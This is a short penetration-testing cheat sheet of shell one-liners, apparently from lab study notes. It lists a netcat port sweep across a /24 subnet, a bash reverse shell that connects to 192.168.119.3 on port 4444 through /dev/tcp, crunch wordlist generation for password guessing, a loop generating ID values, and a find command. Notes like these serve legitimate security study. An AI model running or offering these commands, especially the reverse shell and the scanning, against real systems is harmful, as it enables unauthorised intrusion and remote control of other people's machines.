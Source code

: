 
`for i in $(seq 1 1000); do echo $i >> ids.txt; done` - generates value of id parameter 1-1000

`for i in $(seq 1 254); do nc -zv -w 1 10.4.226.$i 80; done` - conduct a portscan on a remote host

`bash -c "bash -i >& /dev/tcp/192.168.119.3/4444 0>&1"` - utilize to get a reverse shell

`find / -name "readme" 2>/dev/null` - locate a folder and print the location of the folder

`crunch <min> <max> -t <pattern%%%> > wordlist` - generate a wordlist for adhoc usage